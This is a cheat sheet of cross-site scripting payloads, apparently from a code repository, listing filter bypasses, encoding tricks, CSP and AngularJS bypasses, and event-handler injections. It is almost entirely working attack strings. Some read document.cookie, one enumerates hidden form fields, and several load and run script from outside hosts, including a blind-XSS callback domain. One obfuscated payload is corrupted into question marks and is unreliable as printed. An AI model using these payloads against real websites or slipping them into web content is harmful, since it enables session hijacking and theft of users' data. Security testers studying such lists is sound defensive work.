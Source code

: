 > Blind XSS payload XXShunter

```"><script src=https://a007.xss.ht></script>```

> ASP filter bypass

```%u003Cscript%u003Eprompt%u0028303%u0029%u003C/script%u003E```

> Double URL encoding

```%253Cscript%253Ealert(1)%253C%252Fscript%253E```

> XSS in XML

```<![CDATA[<]]>script<![CDATA[>]]>alert('xss')<![CDATA[<]]>/script<![CDATA[>]]>```

```<x:script xmlns:x="http://www.w3.org/1999/xhtml">alert(1)</x:script>```

```<x:script xmlns:x="http://www.w3.org/1999/xhtml" src="//brutelogic.com.br/1.js"/>```

> Where :// is required after protocol

```javascript://%250aalert(1)```

> XSS in email addresses

```"\"><s>test"@gmail.com```
  
```javascript:eval(atob('YWxlcnQoZG9jdW1lbnQuY29va2llKTs='));```

```<script>eval(atob('YWxlcnQoZG9jdW1lbnQuY29va2llKTs='));</script>```

```<imG/sRc=l oNerrOr=(prompt)() x>```

 ```<body onpageshow=alert(1)>```

```<style onload=alert(1)>```

```<marquee behavior="alternate" onstart=alert(1)>XSS</marquee>```

```<d3"<"/onclick="1>[confirm``]"<">z```

```&lt;script&gt;confirm(1)&lt;/script&gt;```

> GET Hidden Fields data

```<script>var xss = '';f=document.forms;for(i=0;i<f.length;i++){e=f[i].elements;for(n in e){if(e[n].type=='hidden'){alert(e[n].name+': '+e[n].value)}}};//'';</script>```

```<table><thead style=font-size:100px onmouseover=prompt(1)><td>XSS```

```<svg/x=">"/onload=confirm()//```

```<sCript x>(((confirm)))``</scRipt x>```

```<svg </onload ="1> (_=prompt,_(1)) "">```

```<!'/*"/*/'/*/"/*--></Script><Image SrcSet=K */; OnError=confirm`1` //>```

```<w="/x="y>"/ondblclick=`<`[confir\u006d``]>XXS```

```<script/x>alert(1)</script/x>```

```"><!--<iMg sRc=--><img src=x oNERror=(prompt)`1` x>"```

```"><deTails oNToggle=confi\u0072m(1)>"```

> Get response back to server

```<script>function b(){eval(this.responseText)};a=new XMLHttpRequest();a.addEventListener("load", b);a.open("GET", "//127.0.0.1:8080");a.send();</script>```

```<A/iD=x hREf=jav&#x09;ascript:prom&#x09;pt(doc&#x09;ument.coo&#x09;kie); id=x>XSS```

```data:,alert(1)```

```\'-alert(1)//```

```'}alert(1);{'```

```'}alert(1)%0A{'```

```\'}alert(1);{//```

> CSP bypass if http://ajax.googleapis.com is whitelisted

```<script src=//ajax.googleapis.com/ajax/services/feed/find?v=1.0%26callback=alert%26context=1337></script>```

```<embed src='//ajax.googleapis.com/ajax/libs/yui/2.8.0r4/build/charts/assets/charts.swf?allowedDomain=\"})))}catch(e){alert(1337)}//' allowscriptaccess=always>```

```<script src=data:,alert(1)>```


> Angular JS XSS

```{{constructor.constructor('alert(1)')()}}```

```<x ng-app>{{constructor.constructor('alert(1)')()}} ```

> Upper Case

```<SCRIPT SRC=//BRUTELOGIC.COM.BR/1></SCRIPT>```

 ```<SVG ONLOAD=&#97&#108&#101&#114&#116(1)>```
 
```data:text/html,<svg onload=alert(1)>```

> Shortest payloads injection

```<a/href=//0>```
```<script src=//14.rs>```

> Before form Tags

```<k onsubmit=alert(1)>```

```<k oninput=alert(1)>```

```foobar"/%0D<body='X' onmouseover=setInterval`alert\x28&#100;&#111;&#99;&#117;&#109;&#101;&#110;&#116;&#46;&#99;&#111;&#111;&#107;&#105;&#101;\x29`//```

```<script ~~~>confirm(1)</script ~~~>```

```window+=valueOf=alert(1)```

```[][`filter`][`constructor`](`ale`.concat(`rt\x28`.concat`0\x29`))();//```

```<script>([_,_____,_,_,__,___]=(__=[])+{___:__},[______,_,________,____,,_________,_______,__,,,__________]=[!!_____]+!_____+_____._____)[___+=_____+__________+__+______+_+________+___+______+_____+_][___](_________+_______+____+_+______+'(-~_____)')(__)</script>```

```<script>([,?,,,,??]=[]+{},[???,????,?????,??????,,???????,????????,?????????,,,??????????]=[!!?]+!?+?.?)[??+=?+??????????+?????????+???+????+?????+??+???+?+????][??](???????+????????+??????+????+???+'`1`')``</script>```

```"><svG oNLoad=confirm&#x28;1&#x29>```

```<script>this[Object["keys"](this)[6]](1)</script>```

> Space and sladh not working

```<svgonload=alert(1)>```
 
```<xss/ondblclick=[cookie].some(alert)>XSS```

>Hidden field XSS

```"accesskey="X" onclick=alert(1) ```
